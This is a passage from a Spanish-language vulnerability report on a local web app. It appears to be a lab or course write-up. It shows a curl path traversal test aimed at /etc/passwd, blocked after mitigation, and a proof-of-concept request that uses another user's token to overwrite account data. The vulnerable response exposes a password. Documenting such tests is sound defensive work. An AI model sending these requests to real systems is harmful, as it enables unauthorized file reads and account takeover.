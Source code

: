 **Prueba tras la mitigación:**

```sh
curl -H "Authorization: <TOKEN>" \
     "http://localhost:3000/invoices/1/invoice?pdfName=../../../../etc/passwd"
```

**Respuesta obtenida tras la mitigación:**

```json
{ "message": "Invalid file name" }
```

**Explicación:**

- El backend ahora valida correctamente el nombre del archivo antes de intentar leerlo.
- Si el nombre no cumple el patrón seguro, responde con un mensaje claro y no accede a rutas arbitrarias.
- La vulnerabilidad de Path Traversal queda mitigada.

**Evidencia:**

![PoC Path Traversal](evidencias/pt_mitigacion.jpeg)

## 5. Falta de autorización (Missing Authorization)

### Prueba de Concepto (PoC)

**Paso 1:** Autenticarse como usuario A y obtener el token JWT.

**Paso 2:** Realizar una petición para modificar los datos de otro usuario (usuario con id=2) usando el token de usuario A.

**Comando:**

```sh
curl -X PUT http://localhost:3000/users/2 \
  -H "Authorization: Bearer <TOKEN_USUARIO_A>" \
  -H "Content-Type: application/json" \
  -d '{"username":"hackeado","email":"hack@evil.com","first_name":"Mal","last_name":"Actor","password":"1234"}'
```

**Respuesta obtenida (vulnerable):**

```json
{
  "id": 2,
  "username": "prod",
  "email": "prod@example.local",
  "password": "password",
  "first_name": "Prod",
  "last_name": "User",
  "activated": true,
  "reset_password_token": null,
  "reset_password_expires": null,
  "invite_token": null,
  "invite_token_expires": null,
  "picture_path": null
}
```
